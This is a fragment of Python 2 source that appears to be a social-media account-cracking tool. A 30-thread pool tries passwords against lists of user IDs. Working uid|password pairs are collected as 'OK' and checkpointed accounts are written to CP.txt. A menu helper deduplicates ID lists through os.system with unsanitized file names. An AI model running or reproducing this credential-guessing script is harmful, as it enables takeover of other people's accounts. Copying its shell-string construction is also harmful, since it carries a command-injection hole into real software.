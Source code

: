                     ok.write(uid + '|' + ps2 + '\n')
                    ok.close()
                    oks.append(uid + ps2)
                elif 'checkpoint' in sp:
                    print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps2 + '\x1b[0;97m'
                    cp = open('CP.txt', 'a')
                    cp.write(uid + '|' + ps2 + '\n')
                    cp.close()
                    cps.append(uid + ps2)
        except:
            pass


    p = ThreadPool(30)
    p.map(main, id)
    print '\x1b[1;97m======================================================='
    print '\x1b[1;37m[=] PROCESS HAS BEEN COMPLETE'
    print '\x1b[1;37m[=] TOTAL OK : \x1b[1;32m' + str(len(oks))
    print '\x1b[1;37m[=] TOTAL CP : \x1b[1;31m' + str(len(cps))
    print '\x1b[1;97m======================================================='
    raw_input('\x1b[1;37mPRESS ENTER TO BACK MENU ')
    menu()


def cutter():
    os.system('clear')
    print logo
    print '\t\x1b[1;37mINPUT FILE REMOVE DOUBLING (/sdcard/xx.txt) '.center(50)
    print '\x1b[1;97m======================================================='
    st = raw_input('[?] INPUT FILE NAME : \x1b[1;32m')
    os.system('clear')
    print logo
    print '\x1b[1;37m[?] PUT FILE REMOVED ID OUTPUT (/sdcard/xx.txt) '.center(50)
    print '\x1b[1;97m======================================================='
    fp = raw_input('\x1b[1;37mOUTPUT NEW FILE NAME : \x1b[0;97m')
    os.system('sort -r ' + st + ' | uniq > ' + fp)
    os.system('clear')
    print logo
    print '\x1b[1;32mREMOVED DOUBLING SUCCESSFULL :) '.center(50)
    print ('\x1b[1;32mFile Save In /sdcard/' + fp).center(50)
    print '\x1b[1;97m======================================================='
    raw_input('PRESS ENTER TO BACK ')
    menu()

if __name__ == '__main__':
    token()
